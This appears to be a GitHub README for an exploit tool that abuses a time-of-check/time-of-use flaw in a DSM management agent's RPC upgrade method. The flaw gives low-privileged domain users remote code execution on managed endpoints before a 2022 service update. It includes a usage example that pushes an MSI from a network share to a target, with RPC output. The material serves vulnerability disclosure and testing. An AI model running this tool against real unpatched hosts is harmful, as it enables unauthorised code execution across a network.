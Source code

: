 ### DSM MSI

----

This project uses the `DSM CsMan extension` RPC interface to request an MSI
upgrade from a running DSM agent. The corresponding RPC method is probably
intended to be used from the management endpoint, to update the DSM version
running on managed clients. Before version `DSM 2022.1.1 Service Update 1`,
the RPC method was vulnerable to a Time of Check, Time of Use (TOCTOU)
vulnerability, that allowed low privileged Active Directory users remote code
execution on any DSM managed endpoint.


### Usage

----

```
C:\>.\dsm-msi.exe
.\dsm-msi.exe <target> <msi-file>

C:\>.\dsm-msi.exe ws291812 \\ws131812\root\DSMClient.msi
[*] RpcStringBindingCompose status code: 0
[*] String binding: ncacn_np:ws291812[\\pipe\\8107ec4c-4c22-42e9-872e-0bd2d534a4a4]
[*] RpcBindingFromStringBinding status code: 0
[*] RpcStringFree status code: 0
[*] RpcBindingSetAuthInfoA status code: 0
[*] Execution finished without an exception.
```
